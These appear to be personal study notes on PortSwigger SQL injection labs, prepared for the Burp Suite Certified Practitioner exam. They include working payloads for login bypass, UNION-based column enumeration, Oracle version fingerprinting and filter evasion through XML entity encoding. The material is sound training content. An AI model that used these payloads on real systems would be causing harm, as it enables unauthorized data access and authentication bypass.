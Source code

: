 [PortSwigger SQL Injection](https://portswigger.net/web-security/sql-injection),
[SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data 
- When user selects a category: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` /filter?category=Clothing%2c+shoes+and+accessories
- Solve the lab to display one or more unreleased products: `SELECT * FROM products WHERE category = '' OR 1=1 --'`/filter?category='+OR+1=1--
  - `--` is a comment indicator in SQL. Rest of the query is interpreted as a comment following this (effectively removing it). In this case, `AND released = 1` is removed. This could've been done just using the '--' to see unreleased items, but if you wanted to see unreleased items from all categories, the OR 1=1 --' works, as it is either Gifts or 1=1 is true, and since 1=1 is always true, the query returns all items.
 
## SQL injection vulnerability allowing login bypass
- When user logs in, there is a reported SQL vulnerability. Potential attempts to try include:
  - `SELECT firstname FROM users where username='administrator' and password='admin'`
  - `SELECT firstname FROM users where username=''' and password='admin'`
  - `SELECT firstname FROM users where username='administrator' --' and password='admin'` - WINNER

## SQL injection UNION attack, determining the number of columns returned by the query
- UNION attacks - retrieve data from other tables within the database. UNION allows for execution of additional SELECT queries: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`
- Two requirements for UNION attacks:
  1. Individual queries must return the same number of columns (find out how many columns are being returned from the original query)
      - Inject a series of ORDER BY clauses and incrementing the specified column index until an error occurs. `' ORDER BY 1--`, `'ORDER BY 2--`, etc.
      - Inject a series of UNION SELECT payloads with different number of null values `' UNION SELECT NULL--`, `'UNION SELECT NULL,NULL--`, etc.
        - A NullPointerException makes this method ineffective. 
  2. The data types in each column must be compatible with the individual queries (find out which columns returned from the original query are of a suitable data type to hold the results from the injected query).
- In this lab, attempted `'+ORDER+BY+2--'` through 4 and noticed 4 returned an error. Determined there were three columns.
  - Verified 3 columns by also using `'+UNION+SELECT+NULL,NULL,NULL--'` (# of nulls has to match # of columns)
 
## SQL injection attack, querying the database type and version on Oracle
- You can identify the database type and version by injecting provider-specific queries:
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
  - PostgreSQL: `SELECT version()`
- For example, UNION attack with following input: `' UNION SELECT @@version--`
- **REMEMBER** - you need to determine the number of columns first before performing a UNION attack.
  - Performed `' ORDER BY 2--'` - determined 2 columns, as 3 returned an error (category='+ORDER+BY+2--')
- Once I determined 2 columns, I knew I needed to add an additional column to call for in my request: `' UNION SELECT banner,null FROM v&version--`
  - `' UNION SELECT banner,null FROM v$version--`
  - `' UNION SELECT version, null FROM v$instance--` did not work for this Oracle database. 

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/cc5bd783-036f-4acc-9d71-c7452b4a7d63)

## SQL injection with filter bypass via XML encoding
- Different formats, such as JSON or XML, may provide you ways to obfuscate attacks that are otherwise blocked [Link](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding)
- For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT [W3 UTF-8 Link](https://www.w3schools.com/charsets/ref_utf_basic_latin.asp):

```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>

*The x indicates Hex for UTF-8 HTML, I believe*
```
- As for the lab, originally tried the following (UNION SELECT * FROM user--), which returned 0 units. Need to figure out how many columns maybe?:
```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>8 &#x55;NION &#x53;ELECT &#42; &#x46;ROM users.tables&#x2D;&#x2D; </productId><storeId>2</storeId></stockCheck>
```
  - Changed it to UNION SELECT null - we see that it only likes to return one column at a time, so we have to concatenate:
    
![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/57c4ece1-7ea1-45e4-9866-3cd178865088)
![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/9fa260e3-3ce6-47d4-bfbc-27d316a4bcdc)


